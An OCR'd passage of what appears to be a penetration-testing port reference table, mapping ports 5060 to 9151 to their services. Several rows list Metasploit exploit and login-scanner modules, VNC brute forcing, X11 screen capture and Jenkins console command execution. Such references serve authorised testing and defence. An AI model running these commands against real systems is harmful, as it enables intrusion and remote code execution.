 | 5060 | udp | sip | msf &gt; use auxiliary/scanner/sip/options |
| 5222 |  | XMPP |  |
| 5269 |  | XMPP Server to Server |  |
| 5353 |  | mDNS |  |
| 5357 |  | Mirosoft-HTTP API/2.0 |  |
| 5432 |  | Postgresql |  |
| 5555 | tcp | hp data protector | msf &gt; use exploit/windows/misc/hp\_dataprotector\_cmd\_exec |
| 5577 |  | Flux LED |  |
| 5601 | tcp | kibana |  |
| 5632 |  | PCAnywhere |  |
| 5672 |  | RabbitMQ |  |
| 5900 | tcp | vnc | msf &gt; use auxiliary/scanner/vnc/vnc\_none\_auth msf &gt; use auxiliary/scanner/vnc/vnc\_login  msf &gt; use exploit/multi/vnc/vnc\_keyboard\_exec nmap --script vnc-brute -p 5900  nmap --script vnc-info -p 5900  |
| 5901 |  | vnc |  |
| 5938 |  | TeamViewer |  |
| 5984 |  | CouchDB |  |
| 5985 | tcp | winrm | msf &gt;use exploit/windows/winrm/winrm\_script\_exec msf &gt;use auxiliary/scanner/winrm/winrm\_auth\_methods msf &gt;use auxiliary/scanner/winrm/winrm\_cmd msf &gt;use auxiliary/scanner/winrm/winrm\_login msf &gt;use auxiliary/scanner/winrm/winrm\_wql |
| 6000 | tcp | x11 | xwd -root -screen -slient -display 192.168.1.108:0 &gt; out.xwd convert out.xwd out.png |
| 6379 | tcp | redis | redis-cli -h 127.0.0.1 -p 6379 msf &gt;use auxiliary/scanner/redis/file\_upload msf &gt;use auxiliary/scanner/redis/redis\_login use auxiliary/scanner/redis/redis\_server |
| 6380 | tcp | redis |  |
| 6082 | tcp | varnish |  |
| 6667 | tcp | ircd backdoor | msf &gt; use exploit/unix/irc/unreal\_ircd\_3281\_backdoor |
| 6881 |  | BitTorrent |  |
| 6969 |  | TFTP,BitTorrent |  |
| 7001 | tcp | weblogic |  |
| 8080 | tcp | jekins | Jekins Console println "cmd.exe /c dir".execute\(\).text  msf &gt;use auxiliary/scanner/http/jenkins\_enum msf &gt;use exploit/multi/http/jenkins\_script\_console |
| 8083 | tcp | vestacp |  |
| 8089 | tcp | jboss |  |
| 8101 | tcp | apache karaf |  |
| 8180 | tcp | apache tomcat | msf &gt; use exploit/multi/http/tomcat\_mgr\_deploy |
| 8443 | tcp | https |  |
| 8443 |  | Symantec SEP Manager |  |
| 8554 | tcp | rtsp |  |
| 8649 | tcp | ganglia |  |
| 9009 | tcp | Julia |  |
| 9043 | tcp | WebSpeher |  |
| 9090 |  | Symantec SEP Manager |  |
| 9151 | tcp | Tor Control |  |
